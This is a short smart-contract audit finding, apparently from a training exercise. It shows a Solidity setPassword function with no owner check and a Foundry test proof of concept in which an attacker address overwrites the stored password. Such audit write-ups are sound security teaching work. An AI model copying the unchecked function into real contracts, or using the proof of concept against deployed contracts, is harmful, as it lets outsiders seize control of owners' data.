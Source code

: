 # M - anyone can set the password

https://github.com/Cyfrin/3-passwordstore-audit/blob/53ca9cb1808e58d3f14d5853aada6364177f6e53/src/PasswordStore.sol#L26C5-L29C6

```solidity
function setPassword(string memory newPassword) external {
        s_password = newPassword;
        emit SetNetPassword();
    }
```

- No check for msg.sender == s_owner

## Proof of Concept

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.18;

import {Test, console} from "forge-std/Test.sol";
import {PasswordStore} from "../src/PasswordStore.sol";
import {DeployPasswordStore} from "../script/DeployPasswordStore.s.sol";

contract PasswordStoreTest is Test {
    PasswordStore public passwordStore;
    DeployPasswordStore public deployer;
    address public OWNER = makeAddr("owner");

    address public ATTACKER = makeAddr("attacker");

    function setUp() public {
        deployer = new DeployPasswordStore();
        passwordStore = deployer.run();
        OWNER = msg.sender;
    }

    function test_review_non_owner_can_set_password() public {
        vm.prank(ATTACKER);
        string memory expectedPassword = "attackPassword";
        passwordStore.setPassword(expectedPassword);

        vm.prank(OWNER);
        string memory actualPassword = passwordStore.getPassword();
        assertEq(actualPassword, expectedPassword);
    }
}
```
